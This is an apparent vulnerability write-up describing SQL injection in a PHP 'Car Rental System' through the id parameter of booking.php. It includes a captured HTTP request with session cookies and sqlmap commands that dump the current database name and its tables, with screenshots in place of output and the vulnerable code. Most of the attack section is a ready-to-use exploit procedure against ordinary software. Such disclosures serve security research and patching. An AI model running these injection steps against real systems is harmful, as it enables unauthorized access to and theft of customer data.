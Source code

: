 # Car Rental System SQL Injection
* `Note` => Login to customer
* `Injection Point` => `http://192.168.1.101:8080/Car_Rental/booking.php?id=1`
# Exploit 
* Exploit with `Sqlmap` + `Burp Suite `
![image](https://user-images.githubusercontent.com/79050415/159719099-d87a540c-b90f-49ca-8377-36bd97a4314e.png)
* Use `Burp Suite` capture request 
* Then save as `sqlicar.txt`
```c
GET /Car_Rental/booking.php?id=1 HTTP/1.1
Host: 192.168.1.101:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Car_Rental/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=jo7rsp3d4su5223o11544otrc44odm2l; PHPSESSID=5cddkjjvh5nhvqh96t306gau8b
Connection: close

```
* Exploit with `Sqlmap`
```c
 python3 sqlmap.py -r sqlicar.txt --current-db
```
![image](https://user-images.githubusercontent.com/79050415/159721152-f8a48ce3-3cde-4743-bb4a-babb858e9e48.png)

```python
python3 sqlmap.py -r sqlicar.txt -D carrentalp --tables
```
![image](https://user-images.githubusercontent.com/79050415/159719187-a0e7785b-ddf4-4581-a7ca-75e3343f4b49.png)
# Information Disclosure
![image](https://user-images.githubusercontent.com/79050415/159721411-55b6bdde-6ad6-4490-ac0e-a96e1a7bd1f7.png)
![image](https://user-images.githubusercontent.com/79050415/159721455-10c52b03-bc77-4aaf-8de1-684a30af17b7.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159724951-39b8fd8b-9a6d-4797-846e-ca69b7767a8e.png)
* No filter `id` when inserting data to database

